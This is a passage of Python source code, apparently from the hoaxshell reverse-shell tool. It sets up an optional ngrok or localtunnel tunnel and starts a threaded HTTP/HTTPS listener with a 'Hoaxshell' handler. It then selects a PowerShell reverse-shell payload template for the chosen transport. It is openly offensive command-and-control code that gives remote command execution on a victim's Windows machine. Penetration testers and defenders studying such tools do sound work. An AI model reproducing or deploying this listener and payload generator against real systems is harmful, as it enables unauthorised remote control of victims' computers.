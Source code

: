 			if args.localtunnel:
				t_server = t_process.lt_address()
				
			elif args.ngrok:
				t_server = t_process.ngrok_address()

			if not t_server:
				exit_with_msg('Failed to initiate tunnel. Possible cause: You have a tunnel agent session already running in the bg/fg.')	
				
		# Start http server
		try:
			httpd = HTTPServer(('0.0.0.0', server_port), Hoaxshell)

		except OSError:
			exit(f'\n[{FAILED}] - {BOLD}Port {server_port} seems to already be in use.{END}\n')

		if ssl_support:
			try:
				context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
				context.load_cert_chain(certfile = args.certfile, keyfile = args.keyfile)
				httpd.socket = context.wrap_socket(sock = httpd.socket, server_side= True)
			except FileNotFoundError:
				exit_with_msg('Certificate / Key file not found. Check your input and try again.')

		port = f':{server_port}' if server_port != 443 else ''

		Hoaxshell_server = Thread(target = httpd.serve_forever, args = ())
		Hoaxshell_server.daemon = True
		Hoaxshell_server.start()
	
		
		# Generate payload
		if not args.grab:
			print(f'[{INFO}] Generating reverse shell payload...')

			if args.localtunnel:
				source = open(f'{cwd}/payload_templates/https_payload_localtunnel.ps1', 'r') if not args.exec_outfile else open('./payload_templates/https_payload_localtunnel_outfile.ps1', 'r')

			elif args.ngrok:
				source = open(f'{cwd}/payload_templates/https_payload_ngrok.ps1','r') if not args.exec_outfile else open(f'{cwd}/payload_templates/https_payload_ngrok_outfile.ps1', 'r')
				
			elif not ssl_support:
				source = open(f'{cwd}/payload_templates/http_payload.ps1', 'r') if not args.exec_outfile else open(f'{cwd}/payload_templates/http_payload_outfile.ps1', 'r')
			
			elif ssl_support and args.trusted_domain:
				source = open(f'{cwd}/payload_templates/https_payload_trusted.ps1', 'r') if not args.exec_outfile else open(f'{cwd}/payload_templates/https_payload_trusted_outfile.ps1', 'r')
				
			elif ssl_support and not args.trusted_domain:
				source = open(f'{cwd}/payload_templates/https_payload.ps1', 'r') if not args.exec_outfile else open(f'{cwd}/payload_templates/https_payload_outfile.ps1', 'r')
			
